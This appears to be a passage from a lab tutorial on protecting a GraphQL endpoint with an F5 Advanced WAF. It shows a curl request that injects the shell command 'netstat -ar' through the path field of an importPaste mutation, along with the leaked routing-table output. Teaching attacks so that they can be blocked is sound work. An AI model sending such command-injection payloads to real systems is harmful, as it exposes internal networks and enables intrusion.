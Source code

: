 ```

curl -g \
-X POST \
-H "Content-Type: application/json" \
-d '{"query":"mutation {importPaste(host:\"localhost\", port:80, path:\"/ ; netstat -ar\", scheme:\"http\"){result}}"}' \
http://<YOUR CONTAINER IP>/graphql

```
You should get someting like this:

```
"data":{"importPaste":{"result":"Kernel IP routing table\nDestination     Gateway         Genmask         Flags   MSS Window  irtt Iface\ndefault         X.X.X.X     0.0.0.0         UG        0 0          0 NIC\nX.X.X.X     *               255.255.255.0   U         0 0          0 NIC\n"}}}
```

As you can see, your GraphQL endpoint works and also allows anyone to know internal networking. Not cool.

    try...
     what else is needed?
  # Task 4 - Deploy F5 Adv WAF to protect GraphQL endpoint
  # Task 5 - Try attacks again and see f5 event log
